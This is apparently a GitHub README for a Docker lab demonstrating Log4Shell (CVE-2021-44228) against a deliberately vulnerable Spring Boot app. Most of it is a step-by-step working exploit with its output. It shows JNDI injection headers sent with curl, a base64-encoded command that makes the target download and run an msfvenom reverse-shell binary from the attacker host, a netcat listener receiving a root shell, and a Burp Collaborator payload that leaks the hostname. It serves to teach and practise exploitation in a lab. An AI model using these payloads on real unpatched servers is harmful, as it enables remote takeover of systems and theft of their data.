

# Spring Boot Log4j - CVE-2021-44228

The Log4Shell vulnerability (CVE-2021-44228) ultimately is a quite simple JNDI Injection flaw, but in a really really bad place. Log4J will perform a JNDI lookup() while expanding placeholders in logging messages (or indirectly as parameters for formatted messages) ...readmore [PSA: Log4Shell and the current state of JNDI injection](https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/).


## Docker Lab Setup
*Note:* This dockerfile originally from [Log4Shell sample vulnerable application (CVE-2021-44228)](https://github.com/christophetd/log4shell-vulnerable-app). It uses Log4j 2.14.1 (through spring-boot-starter-log4j2 2.6.1) and the JDK 1.8.0_181.

Container lab to play/learn with CVE-2021-44228. Let's clone our repository.

```bash
$ git clone https://github.com/twseptian/Spring-Boot-Log4j-CVE-2021-44228-Docker-Lab.git
$ cd Spring-Boot-Log4j-CVE-2021-44228-Docker-Lab/
$ docker build spring-boot-log4j -t spring-boot-log4j-vulnerable
$ docker run -p 8080:8080 --name spring-boot-log4j-vulnerable spring-boot-log4j-vulnerable
```


## Using JNDI-Injection-Exploit to Exploit.

Target: 172.17.0.2<br>
Attacker: 172.17.0.1

- download JNDIExploit from [https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) `Update (Dec 13th):` The JNDIExploit repository has been removed from GitHub
```bash
$ cd tools/
$ unzip JNDIExploit.v1.2.zip
$ cd JNDIExploit.v1.2/
$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -h
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Usage: java -jar JNDIExploit-1.2-SNAPSHOT.jar [options]
  Options:
  * -i, --ip       Local ip address
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show usage (default: false)
    -h, --help     Show this help
```
- encode our command line using base64. In this case, from target machine will be send ping commands to attacker machine
```bash
$ echo 'ping -c 5 172.17.0.1' | base64 -w 0
cGluZyAtYyA1IDE3Mi4xNy4wLjEK
```
- use JNDIExploit to spin up a malicious LDAP server
```bash
$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
```
- then, run this command below to trigger our ping command from target machine
```bash 
$ curl 172.17.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK}'
```
- let's see the output from JNDIExploit
```bash
...
[+] Received LDAP Query: Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK
[+] Paylaod: command
[+] Command: ping -c 5 172.17.0.1

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/cGluZyAtYyA1IDE3Mi4xNy4wLjEK redirecting to http://172.17.0.1:8888/ExploitX07BVXemV5.class
[+] New HTTP Request From /172.17.0.2:58630  /ExploitX07BVXemV5.class
[+] Receive ClassRequest: ExploitX07BVXemV5.class
[+] Response Code: 200
```
- now, we can capture using tcpdump the ping commands from target machine
```bash
$ sudo tcpdump -i docker0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on docker0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
22:32:07.210584 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 0, length 64
22:32:07.210594 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 0, length 64
22:32:08.210938 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 1, length 64
22:32:08.210965 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 1, length 64
22:32:09.211367 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 2, length 64
22:32:09.211391 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 2, length 64
22:32:10.211569 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 3, length 64
22:32:10.211592 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 3, length 64
22:32:11.211814 IP 172.17.0.2 > kali: ICMP echo request, id 33792, seq 4, length 64
22:32:11.211848 IP kali > 172.17.0.2: ICMP echo reply, id 33792, seq 4, length 64
```

## Remote Code Execution - CTF Style "How to get a reverse shell"
- create a reverse shell file using msfvenom
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f elf -o /tmp/rev.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: /tmp/rev.elf
```
- prepare local server using python on our attacking machine
```bash
$ sudo python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```
- encode this command line below using `base64`
```bash
wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf
```
- copy base64 output
```bash
$ echo 'wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf' | base64
d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK
```
- use JNDIExploit to spin up a malicious LDAP server
```bash
$ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 172.17.0.1 -p 8888
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
...
```
- then, run the command below to trigger our command
```
$ curl 172.17.0.2:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK}'
Hello, world!
```
- start netcat reverse shell on attacker machine `nc -lvnp 4444`, then netcat will be trigger a reverse shell
```bash
$ nc -lvnp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:42176.
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
whoami
root
```
- the output from JNDIExploit
```bash
...
[+] Received LDAP Query: Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK
[+] Paylaod: command
[+] Command: wget http://172.17.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/d2dldCBodHRwOi8vMTcyLjE3LjAuMTo4MDgxL3Jldi5lbGYgLU8gL3RtcC9yZXYuZWxmICYmIGNobW9kICt4IC90bXAvcmV2LmVsZiAmJiAvdG1wL3Jldi5lbGYK redirecting to http://172.17.0.1:8888/ExploitgV2vh72T6X.class
[+] New HTTP Request From /172.17.0.2:58650  /ExploitgV2vh72T6X.class
[+] Receive ClassRequest: ExploitgV2vh72T6X.class
[+] Response Code: 200
```
## get hostname using burp suite collaborator
- payload
```bash
${jndi:ldap://${hostName}.our-link.burpcollaborator.net/}
```


References:
- [Log4Shell: RCE 0-day exploit found in log4j 2, a popular Java logging package](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [PSA: Log4Shell and the current state of JNDI injection](https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/)
- [Log4Shell sample vulnerable application (CVE-2021-44228)](https://github.com/christophetd/log4shell-vulnerable-app)
- [JNDIExploit](https://github.com/feihong-cs/JNDIExploit)